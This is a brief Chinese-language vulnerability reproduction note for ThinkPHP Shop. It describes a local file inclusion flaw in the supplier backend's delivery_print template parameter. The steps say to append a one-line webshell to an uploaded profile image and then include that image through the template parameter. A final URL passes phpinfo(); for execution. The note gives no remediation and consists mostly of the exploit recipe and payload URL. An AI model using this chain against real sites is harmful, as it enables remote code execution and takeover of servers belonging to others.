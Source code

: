 ```yaml
---
title: Thinkphp Shop 供应商后台本地文件包含导致权限提升
id: zhfly3182
---
```


# Thinkphp Shop 供应商后台本地文件包含导致权限提升

## 一、漏洞简介

## 二、漏洞影响

## 三、复现过程

### 1、用户个人资料修改处上传图片

http://www.0-sec.org/Home/User/info.html

### 2、上传一张正常图片，并在图片末尾加上一句话

### 3、返回shell

http://www.0-sec.org/supplier/order/delivery_print?template=public/upload/user/4575/head_pic/5989ee42cc5992e64a60c52b0cbb7602.png&w=phpinfo();